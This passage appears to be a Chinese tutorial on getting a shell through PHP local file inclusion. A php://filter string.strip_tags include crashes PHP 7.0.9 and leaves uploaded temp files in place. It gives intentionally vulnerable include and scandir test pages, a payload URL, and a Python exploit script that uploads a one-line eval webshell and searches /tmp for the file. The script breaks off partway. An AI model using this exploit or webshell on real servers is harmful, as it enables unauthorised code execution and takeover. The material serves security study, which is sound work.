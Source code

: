 这种包含会导致php执行过程中出现segment fault，此时上传文件，临时文件会被保存在`upload_tmp_dir`所指定的目录下，不会被删除，这样就能达成getshell的目的。

### <a class="reference-link" name="%E4%BB%A3%E7%A0%81%E7%8E%AF%E5%A2%83"></a>代码环境

<a class="reference-link" name="%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81"></a>**测试代码**

index.php

```
&lt;?php
    $a = @$_GET['file'];
    include $a;
?&gt;
```

dir.php

```
&lt;?php
    $a = @$_GET['dir'];
    var_dump(scandir($a));
?
```

<a class="reference-link" name="%E6%B5%8B%E8%AF%95%E7%8E%AF%E5%A2%83"></a>**测试环境**

```
PHP Version 7.0.9
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a330620896b3cd5c.png)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

<a class="reference-link" name="%E6%94%BB%E5%87%BB%E8%BD%BD%E8%8D%B7"></a>**攻击载荷**

string.strip_tags过滤器导致出现php segment fault

```
index.php?file=php://filter/string.strip_tags/resource=index.php
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t013523944235c9f89d.png)

可以看到上面这种包含会导致php执行过程中出现错误，此时上传文件，临时文件会被保存在`upload_tmp_dir`所指定的目录下，从而不会被删除，一直存储在服务的临时目录里面。

<a class="reference-link" name="%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8-%E6%8A%80%E5%B7%A71"></a>**攻击利用-技巧1**

我们可以通过`dir.php`辅助查找生成的临时文件

<a class="reference-link" name="%E7%BC%96%E5%86%99%20Linux%20Exp"></a>**编写 Linux Exp**

Linux网络攻击环境下的脚本编写

```
#python version 2.7

import requests
from io import BytesIO
import re

files = {
  'file': BytesIO('&lt;?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

url2 = 'http://192.168.68.119/dir.php?dir=/tmp/'
r = requests.get(url2)
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0)
```